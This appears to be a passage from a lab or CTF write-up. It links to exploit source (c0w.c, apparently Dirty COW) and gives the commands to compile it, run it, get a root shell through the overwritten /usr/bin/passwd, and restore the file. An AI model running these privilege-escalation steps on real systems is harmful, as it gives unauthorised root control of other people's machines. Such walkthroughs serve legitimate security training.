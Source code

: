 [https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)

Download and compile it **using the instructions in the file** <u>**As in, Uncommenting the correct payload!**</u>:

```bash - kali
gcc -pthread c0w.c -o c0w
```

Run the exploit:

```bash - kali
./c0w
```

Once the exploit is complete, simply execute the 
/usr/bin/passwd binary to get a root shell:

```bash - kali
/usr/bin/passwd
```

Restore the original file ==when complete:==

```bash - kali
cp /tmp/bak /usr/bin/passwd
```
